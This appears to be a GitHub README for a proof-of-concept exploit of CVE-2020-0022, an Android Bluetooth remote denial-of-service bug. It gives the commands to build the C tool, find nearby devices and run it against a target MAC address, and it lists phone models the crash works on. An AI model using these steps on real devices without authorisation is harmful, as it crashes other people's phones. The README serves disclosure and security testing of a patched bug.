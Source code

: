 # CVE-2020-0022
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-0022
http://exploit.kitploit.com/2020/03/android-bluetooth-remote-denial-of.html
https://packetstormsecurity.com/files/156891/Android-Bluetooth-Remote-Denial-Of-Service.html

p0c_blue for CVE-2020-0022

## usage 
- - - Kali Linux
- - - Find d#v1c#s
```url
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Bluetooth
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Blueranger
```
- - - Ditrect program
```url
https://github.com/nu11secur1ty/Kali-Linux/tree/master/Bluevisku
```
- - - - Scan...
![](https://github.com/nu11secur1ty/Andr01dExploits/blob/master/CVE-2020-0022/screen/1.png)

- - - Need to install
```bash
apt install libbluetooth-dev
```
- - - Compiling
```bash
gcc p0c_blue.c -lbluetooth -o p0c_blue
```
- - - Attack
![](https://github.com/nu11secur1ty/Andr01dExploits/blob/master/CVE-2020-0022/screen/11.png)

```bash
./p0c_blue MAC_ADDR
```

## info

- This poc_hould be stable on android 8.1.0,once it run into truncating packet, crash. But it cloud be very unstable, on Samsung s9 plus surely unstable.
- Run poc on raspberry pi 3B has been tested okay.
- run ubuntu/arch with vmware in windows 10 on thinkpad x1c 2018 or ubuntu with pd in mac os x could not run into truncating code , don't know why.

## Test List
- OnePlus 5T with Android 8.1.0: stable.
- Samsung s9 plus with Android 9.0: unstable.
- Nova 3 with Android 9: stable.

-------------------------------------------------------------------------------------------------

- - - Fix on OS 10
```

CVE	                References	      Type	       Severity	   Updated AOSP versions
-------------------------------------------------------------------------------------------------
CVE-2020-0022	      A-143894715	      DoS	         Moderate	       10
```

- - - Table:

https://source.android.com/security/bulletin/2020-02-01



